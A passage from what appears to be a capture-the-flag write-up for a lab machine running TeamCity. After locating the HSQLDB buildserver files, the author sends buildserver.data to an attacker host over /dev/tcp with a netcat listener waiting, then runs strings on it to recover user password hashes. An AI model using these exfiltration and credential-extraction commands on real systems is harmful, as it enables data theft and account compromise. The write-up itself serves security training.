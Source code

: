 ```bash
```

Reading the [hsql documentation](https://www.hsqldb.org/doc/2.0/guide/running-chapt.html#rgc_hsqldb_db), I can see that a specified file consists in various files like ".properties", ".data", ".log", etc:

![hsql file consists in various files](/assets/images/Runner/hsql-file-consists-in-various-files.png)

So I will search recursively for these files with find:

```bash
tcuser@647a82f29ca0:/data/teamcity_server/datadir/config$ find / -name buildserver\* 2>/dev/null
/data/teamcity_server/datadir/system/buildserver.log
/data/teamcity_server/datadir/system/buildserver.tmp
/data/teamcity_server/datadir/system/buildserver.properties
/data/teamcity_server/datadir/system/buildserver.script
/data/teamcity_server/datadir/system/buildserver.lck
/data/teamcity_server/datadir/system/buildserver.data
```

And I can see they are in /data/teamcity_server/datadir/system directory. I will download the .data to my machine as its the most interesting:

**Attacker**
```bash
❯ nc -lvnp 443 > buildserver.data
listening on [any] 443 ...
```


**Victim**
```bash
tcuser@647a82f29ca0:/data/teamcity_server/datadir/config$ cat  /data/teamcity_server/datadir/system/buildserver.data > /dev/tcp/10.10.14.106/443
```

Just doing a strings to the file shows the password hashes for the users:

```bash
❯ strings buildserver.data | less
```